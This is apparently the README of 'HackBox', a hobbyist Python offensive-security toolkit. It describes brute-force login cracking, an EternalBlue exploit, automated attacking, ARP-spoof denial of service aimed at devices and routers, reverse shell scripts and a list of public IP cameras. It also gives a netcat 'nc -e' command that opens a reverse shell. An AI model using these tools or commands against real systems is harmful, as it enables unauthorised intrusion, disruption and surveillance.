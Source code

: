 Beta 1.1 - Functional, with new modules, but not production ready - explore the Proof Of Concept branch for latest updates!

Disclaimer! This software is provided for educational use only! I do not take responsibility for any illegal, malicious, or unethical acts performed using this software!

Note: I am learning python while making this program, do not assume in any way shape or form that this software is secure, reliable, or safe to have on your system. Use at your own risk!



Alright now to the fun stuff:

### Attack Mode: For offensive security <br/>
- ####   System Access: All Sorts of ways to get into a system! <br/>
    -- Protocol Cracker: A hydra based bruteforce program to brute force logins, Note!: It is fairly slow and is best to use on simple/default passwords only<br/> 
    -- EternalBlue: This is the infamous eternal blue exploit, however only the windows 7 version is present currently. <br/>
    --  AutoTack: An automated scanner, and attacker! <br/>
        -- AutoTack is a combination of everyhing in HackBox. It uses other modules code (such as protocol cracker) to scan, store and attack targets automatically. Currently, only bruteforce attacks are supported, but more are coming!

- ####   Denial of Service: Preventing people from being productive <br/>
    -- MITM ArpSpoof: A dsniff powered tool that will perform a MITM Arp attack, denying any internet to the selected device  
            Pro Tip: This works on routers too...  with varying effects. Have fun! (Use the router's IP as the target address) 

- ####   Script Runner: A module with preconfigured security scripts! <br/>
    -- A spare shell version of ArpSpoof is here (It was originally coded in bash then converted to python)
    -- fail2ban.sh: An interactive fail2ban install & setup script.
    -- reverse_shell scripts: any script with 'rev_shell' on it sets up a reverse shell, each with a different method  

### Defense Mode <br/>
    -- A work in progress, nothing here yet, but some to come in future updates

### Recon Mode: For reconnaissance <br/>
- ####   Surveillance: A set of modules based around Open Source Intellegence (OSINT) <br/>
    -- IP-CAM: A collection of publicy accessible cameras in hundreds of countries 
    -- UserCheck: A simple module that will check where a username is being used 

- 



## Remote Access
- Through netcat, you can forward a remote HackBox instance to your local machine, no install needed!
    To do this, on your Host machine, run nc -e ./HackBox.py IPADDRESS PORT
    Then on your local machine, run nc -nvlp PORT
    A hackbox instance should then appear on screen
    Note: Local attacks shouldn't work if doing this, as HackBox is running on the Remote Machine, not locally
    Note pt 2: This essentially opens a reverse shell on your machine... so be incredibly careful when doing this
